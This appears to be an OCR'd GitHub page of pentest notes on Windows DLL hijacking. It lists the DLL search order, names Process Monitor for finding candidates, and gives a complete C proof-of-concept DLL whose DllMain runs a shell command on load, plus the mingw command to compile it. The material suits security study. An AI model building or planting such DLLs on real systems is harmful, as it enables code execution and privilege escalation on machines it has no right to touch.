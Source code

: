 3.	The 16-bit system directory. There is no function that obtains the path of this directory, but it is searched.

4.	The Windows directory. Use the 
```bash
GetWindowsDirectory 
```
function to get the path of this directory.

5.	The current directory.

6.	The directories that are listed in the PATH environment variable. Note that this does not include the per-application path specified by the App Paths registry key. The App Paths key is not used when computing the DLL search path.

If SafeDllSearchMode is disabled, the search order is as follows:

1.	The directory from which the application loaded.

2.	The current directory.

3.	The system directory. Use the GetSystemDirectory function to get the path of this directory.

4.	The 16-bit system directory. There is no function that obtains the path of this directory, but it is searched.

5.	The Windows directory. Use the GetWindowsDirectory function to get the path of this directory.

6.	The directories that are listed in the PATH environment variable. Note that this does not include the per-application path specified by the App Paths registry key. The App Paths key is not used when computing the DLL search path.

---------------------------------------------------------

**Finding DLL Hijacking Vulnerabilities**

The tool you can use to find potential DLL hijacking vulnerabilities is Process Monitor (ProcMon). 

---------------------------------------------------------

**Creating the malicious DLL file**

```bash
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k whoami > C:\\Temp\\dll.txt");
        ExitProcess(0);
    }
    return TRUE;
}
```

The mingw compiler can be used to generate the DLL file with the command given below:

```bash
x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
```
